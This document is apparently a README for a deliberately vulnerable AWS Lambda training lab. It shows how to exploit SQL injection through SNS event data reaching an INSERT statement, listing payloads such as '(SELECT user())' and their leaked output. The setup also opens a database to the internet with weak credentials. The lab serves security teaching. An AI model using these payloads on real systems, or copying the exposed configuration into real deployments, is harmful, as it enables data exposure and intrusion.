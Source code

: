 ## Function Event Data Injection - SQL Injection

In this damn vulnerable function, you will perform a SQL Injection attack through a SNS Notification Event.

While the attack vector is SQL Injection, the attack is typically called `Event Data Injection`, where vulnerabilities in a function are triggered by events from sources like:
* SNS Notifications
* Queue Message Notification
* S3 Event Notifications, etc

In this example, a sensor which is simulated by [payload_generator.py](mqtt_rds_sql_event_injection/payload_generator.py)
publishes messages to our Lambda Function. The function, collects this reading and stores this info in a Database.

The message is published as a JSON message with the `reading` key. Example: `{"reading": "40.0"}`
The reading is captured by the Lambda function and stored in a MySQL Database

Our objective is to exploit this event by triggering a vulnerability in the Lambda Function, in this case, a SQL Injection flaw

### Setup - Database
* Create an RDS Database instance in your AWS Account
```
    aws rds create-db-instance \
        --db-instance-identifier SensorDB \
        --db-instance-class db.t2.micro \
        --engine MySQL \
        --port 3306 \
        --allocated-storage 20 \
        --db-name sensordb \
        --master-username test \
        --master-user-password test123 \
        --db-subnet-group-name some-db-subnet \
        --publicly-accessible
```
**Sometimes you will need to create two subnets in different AZs and allocate them to the RDS Subnet group prior to this, for this to work**

* Get Security Group IDs

        aws rds describe-db-instances | jq ".DBInstances[].VpcSecurityGroups[].VpcSecurityGroupId"

* Add inbound rule to the security group

        aws ec2 authorize-security-group-ingress --group-id <group-id> --protocol all --port 3006 --cidr 0.0.0.0/0

* Get Database instance ID

        aws rds describe-db-instances | jq ".DBInstances[0].Endpoint.Address"

* Use MySQL Client (CLI) or some GUI to create the required tables, etc.

```
mysql -h <instance id> -P 3306 -u test -ptest123
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 14
Server version: 5.6.40-log Source distribution

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use sensordb
Database changed
mysql> CREATE TABLE sensor_temperature(id int NOT NULL AUTO_INCREMENT, sensor_name VARCHAR(100), temperature VARCHAR(200), PRIMARY KEY(id));
Query OK, 0 rows affected (0.60 sec)
```

* Generate a SNS Topic with `aws sns create-topic --name my-topic`

    ```
    {
        "ResponseMetadata": {
            "RequestId": "1469e8d7-1642-564e-b85d-a19b4b341f83"
        },
        "TopicArn": "arn:aws:sns:us-west-2:0123456789012:my-topic"
    }
    ```

### Setup - Lambda Function
* Goto `mqtt_rds_sql_event_injection\sqli\.chalice`
* You have been given a `config-sample.json`, which gives you the structure for the `config.json`
* Edit `config.json` to include the following:

```
"environment_variables": {
        "DB_HOST": "<instance id>",
        "DB_USER": "test",
        "DB_PASS": "test123",
        "DB_DB": "sensordb"
        "SNS_TOPIC": "<topic ARN>"
}
```
This will inject the required ENVVARs into the Lambda function at runtime

* go back to the `sqli` directory and run `chalice deploy`

### Solution

This is a slightly unconventional SQL Injection attack, in that, its triggered on an INSERT statement.

The SQLi can be triggered by tampering with the "reading" from the "sensor", you can trigger a SQL Injection attack on the INSERT Statement.

You can leverage mysql functions, global variables, etc for the attack

In the [payload_generator.py](mqtt_rds_sql_event_injection/payload_generator.py) file, you can change the reading with different SQL Injection payloads, like:
* `(SELECT @@datadir)`
* `(SELECT user())`
* `(SELECT CURRENT_USER())`
* `(SELECT DATABASE())`
* `(SELECT @@version)`
* `(SELECT ENCRYPT('password'))`

These will send SNS messages with the SQL Injection payloads, which our vulnerable function will read, process and insert into the Database.

if you run a `select * from sensor_temperature` on your mysql database, you will see output like this:

```
mysql> select * from sensor_temperature;
+----+--------------------------------------+-------------------------------------------------+
| id | sensor_name                          | temperature                                     |
+----+--------------------------------------+-------------------------------------------------+
|  1 | b2177d1c-8d5c-4f25-aa28-fde9f798ad36 | 5.6.40-log                                      |
|  2 | 39e00bb1-1ad5-42a0-b245-3e0cfd2a73ad | master@ec2-54-85-141-53.compute-1.amazonaws.com |
|  3 | 84f306bd-25e0-4703-a2ff-26c3aa7c56d3 | sensordb                                        |
|  4 | 854673c2-cff0-42ee-aa81-84a2b7203b59 | 6kPgJ56CFBaq6                                   |
+----+--------------------------------------+-------------------------------------------------+
4 rows in set (0.40 sec)
```
